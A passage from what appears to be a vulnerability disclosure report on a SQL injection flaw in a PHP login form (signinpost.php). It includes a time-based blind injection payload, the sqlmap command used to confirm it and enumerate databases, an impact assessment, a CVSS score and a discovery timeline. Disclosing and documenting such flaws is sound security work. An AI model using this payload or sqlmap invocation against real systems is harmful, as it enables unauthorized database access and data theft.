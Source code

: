 3. **Time-Based Blind SQL Injection**
    ```bash
    Parameter: username (POST)
    Payload: username=admin' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))cJma) AND 'kbvB'='kbvB&password=1111&submit=SignIn
    ```

#### **SQLMap Command Used:**
```bash
sqlmap -u "192.168.234.23:8080/signinpost.php" \
       --data="username=admin&password=1111&submit=SignIn" \
       --batch --level=5 --risk=3 --random-agent \
       --tamper=space2comment --dbms=mysql --dbs
```

#### **Evidence:**
- <img width="1712" alt="image" src="https://github.com/user-attachments/assets/aa2364b2-53ae-4a85-8ca2-a486f466ba55" />


---

## **3. Impact Assessment**

### **3.1. Potential Consequences**

- **Data Breach:** Unauthorized access to sensitive user information stored in the database.
- **Data Manipulation:** Ability to alter, delete, or insert malicious data within the database.
- **System Compromise:** Potential for attackers to escalate privileges and gain broader access to the system.
- **Service Disruption:** Malicious queries could degrade database performance or cause system outages.

### **3.2. Severity Rating**

- **CVSS v3.1 Base Score:** 8.8 (High)
- **Exploitability:** High (No authentication required)
- **Impact:** Critical

---

## **4. Timeline of Events**

| **Date**       | **Event**                                              |
|----------------|--------------------------------------------------------|
| 2024-12-27     | Discovery of SQL Injection vulnerability by lings3346   |
| 2024-12-27     | Verification of vulnerability using SQLMap              |
| 2024-12-28     | Incident Report created and submitted                   |
| 2024-12-28     | Recommendations provided for immediate remediation     |

---